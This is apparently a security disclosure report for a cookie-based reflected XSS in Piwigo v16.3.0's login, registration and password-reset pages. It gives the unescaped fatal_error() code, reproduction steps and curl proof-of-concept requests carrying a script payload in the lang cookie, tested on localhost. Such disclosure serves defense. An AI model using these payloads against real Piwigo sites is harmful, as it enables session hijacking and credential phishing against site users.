

# Reflected XSS via Unsanitized `lang` Cookie Error Message on Public Authentication Pages in Piwigo v16.3.0

## 1. Vulnerability Description

A reflected cross-site scripting vulnerability exists in several public authentication-related pages in Piwigo v16.3.0.

The pages `identification.php`, `register.php`, and `password.php` read the user-controlled `lang` cookie and validate it against the installed language list. If the value is not recognized, the application calls `fatal_error()` and embeds the invalid cookie value directly into the generated HTML error message:

```php
fatal_error('[Hacking attempt] the input parameter "'.$_COOKIE['lang'].'" is not valid');
```

The `fatal_error()` renderer then inserts `$msg` into the HTML response without `htmlspecialchars()` or equivalent output encoding:

```php
$display = "<meta http-equiv='Content-Type' content='text/html; charset=utf-8'>
<h1>$title</h1>
<pre ...>
<b>$msg</b>
$btrace_msg
</pre>\n";
```

As a result, if the `lang` cookie contains HTML or JavaScript such as `<script>alert(/XSS/)</script>`, the payload is reflected into the response body and executed in the victim's browser when one of those public pages is requested.

This is a reflected XSS issue, but it is important to characterize it accurately: the attack does not trigger from the URL alone. It requires the attacker to cause the victim browser to send a malicious `lang` cookie for the target origin.

- Vulnerability Type: Reflected Cross-Site Scripting (Cookie-based)
- CWE ID: CWE-79

## 2. Affected Version

Piwigo v16.3.0

Other versions have not been verified yet.

## 3. Trigger Conditions and Important Constraints

### 3.1 Public reachability

The affected pages are publicly reachable without authentication:

- `GET /identification.php`
- `GET /register.php`
- `GET /password.php`

No login, API key, or `pwg_token` is required.

### 3.2 The trigger is cookie-based, not URL-only

The vulnerable input is the `lang` cookie, not a query parameter or form field. Therefore, practical exploitation requires the attacker to make the victim browser send a malicious cookie for the Piwigo origin.

This means the issue is not a simple "click a link and trigger XSS" case by itself. Realistic exploitation generally requires one of the following:

- a separate cookie injection or cookie fixation primitive;
- a related vulnerability on the same site or a sibling subdomain that can set cookies for the target origin;
- a man-in-the-middle or local network scenario on an insecure deployment;
- direct user manipulation or a testing context where the attacker can control the cookie jar.

Once the malicious `lang` cookie is present, visiting any affected public page is sufficient to trigger the XSS.

### 3.3 Error page reflection behavior

The payload is reflected in a server-generated `500` error page. In the tested environment, the response body contained the cookie value verbatim inside a `<b>` element:

```html
<b>[Hacking attempt] the input parameter "<script>alert(/XSS/)</script>" is not valid
</b>
```

Because the script tag is inserted into the HTML response without escaping, the browser treats it as active script rather than plain text.

## 4. Tested Environment

- Operating System: Windows
- Web server / local host: `http://localhost`
- Piwigo version: `16.3.0`
- PHP version: `8.2.0`
- MySQL version: `8.4.5`
- Piwigo installation path: `D:\develop\Apache24\htdocs\Piwigo_16.3.0`

## 5. Steps to Reproduce

1. Do not log in.

2. Send the following request with a malicious `lang` cookie:

   ```http
   GET /identification.php HTTP/1.1
   Host: localhost
   Cookie: lang=<script>alert(/XSS/)</script>
   ```

   Equivalent command used during testing:

   ```powershell
   curl.exe --noproxy '*' -i -s "http://localhost/identification.php" -H "Cookie: lang=<script>alert(/XSS/)</script>"
   ```

3. Observe that the server returns a `500` error page and reflects the payload directly into the HTML response:

   ```html
   <b>[Hacking attempt] the input parameter "<script>alert(/XSS/)</script>" is not valid
   </b>
   ```

   

4. Repeat the same test for:

   - `http://localhost/register.php`

   

   - `http://localhost/password.php`

   

5. Observe that both pages also return `500` responses with the injected script reflected in the response body.

## 6. Proof of Concept Requests

### (1) `identification.php`

```powershell
curl.exe --noproxy '*' -i -s "http://localhost/identification.php" -H "Cookie: lang=<script>alert(/XSS/)</script>"
```

Observed reflected HTML:

```html
<b>[Hacking attempt] the input parameter "<script>alert(/XSS/)</script>" is not valid
</b>
```

### (2) `register.php`

```powershell
curl.exe --noproxy '*' -i -s "http://localhost/register.php" -H "Cookie: lang=<script>alert(/XSS/)</script>"
```

Observed reflected HTML:

```html
<b>[Hacking attempt] the input parameter "<script>alert(/XSS/)</script>" is not valid
</b>
```

### (3) `password.php`

```powershell
curl.exe --noproxy '*' -i -s "http://localhost/password.php" -H "Cookie: lang=<script>alert(/XSS/)</script>"
```

Observed reflected HTML:

```html
<b>[Hacking attempt] the input parameter "<script>alert(/XSS/)</script>" is not valid
</b>
```

## 7. Vulnerable Code

### (1) `identification.php:129-133`

The public login page reads the `lang` cookie and forwards invalid values into `fatal_error()`:

```php
if (isset($_COOKIE['lang']) and $user['language'] != $_COOKIE['lang'])
{
  if (!array_key_exists($_COOKIE['lang'], get_languages()))
  {
    fatal_error('[Hacking attempt] the input parameter "'.$_COOKIE['lang'].'" is not valid');
  }
```

### (2) `register.php:105-109`

The public registration page contains the same vulnerable pattern:

```php
if (isset($_COOKIE['lang']) and $user['language'] != $_COOKIE['lang'])
{
  if (!array_key_exists($_COOKIE['lang'], get_languages()))
  {
    fatal_error('[Hacking attempt] the input parameter "'.$_COOKIE['lang'].'" is not valid');
  }
```

### (3) `password.php:493-497`

The public password-reset page also contains the same vulnerable pattern:

```php
if (isset($_COOKIE['lang']) and $user['language'] != $_COOKIE['lang'])
{
  if (!array_key_exists($_COOKIE['lang'], get_languages()))
  {
    fatal_error('[Hacking attempt] the input parameter "'.$_COOKIE['lang'].'" is not valid');
  }
```

### (4) `include/functions_html.inc.php:349-377`

`fatal_error()` renders the attacker-controlled message into HTML without escaping:

```php
function fatal_error($msg, $title=null, $show_trace=true)
{
  ...
  $display = "<meta http-equiv='Content-Type' content='text/html; charset=utf-8'>
<h1>$title</h1>
<pre style='font-size:larger;background:white;color:red;padding:1em;margin:0;clear:both;display:block;width:auto;height:auto;overflow:auto'>
<b>$msg</b>
$btrace_msg
</pre>\n";

  @set_status_header(500);
  echo $display.str_repeat( ' ', 300);
```

## 8. Security Impact

If an attacker can cause a victim browser to send a malicious `lang` cookie for the Piwigo origin, the attacker can execute arbitrary JavaScript in the security context of the affected site when the victim visits a public authentication page.

Depending on the victim's current session state and the site's protections, this may allow the attacker to:

- steal CSRF tokens or other DOM-exposed secrets;
- perform authenticated actions on behalf of the victim;
- phish credentials by modifying the visible login or password-reset page;
- exfiltrate sensitive page content accessible to the victim's browser.

The practical severity is lower than a typical URL-only reflected XSS, because exploitation depends on a separate ability to set or inject the `lang` cookie. However, the underlying bug is real: untrusted cookie content is reflected into HTML without output encoding on publicly reachable pages.

## 9. Contact Information

You can contact me at: `sliao25@m.fudan.edu.cn`

If you determine that this report describes a valid security or privacy issue, I would appreciate being added to the related task or bug report so that I can follow its progress.
